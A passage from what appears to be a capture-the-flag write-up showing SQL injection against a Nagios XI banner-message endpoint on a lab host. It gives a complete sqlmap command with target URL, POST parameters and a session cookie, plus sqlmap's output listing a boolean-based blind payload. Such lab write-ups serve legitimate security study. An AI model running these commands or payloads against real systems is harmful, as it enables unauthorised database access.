 That seems to be working. I’ll try an SQL injection:

![image-20240508194415753](../img/image-20240508194415753.png)

#### sqlmap

Typically I like to show manually doing the injection, but the database here
is large, so I’ll go right to `sqlmap`. For some reason this was a bit tricky
to get working with `sqlmap`. What eventually works for me is building the
command based on the advisory:

    
    
    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10
     ...[snip]...
     POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 260 HTTP(s) requests:
    ---
    Parameter: id (POST)
        Type: boolean-based blind
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: id=(SELECT (CASE WHEN (8029=8029) THEN 3 ELSE (SELECT 2283 UNION SELECT 1083) END))&action=acknowledge_banner_message
    
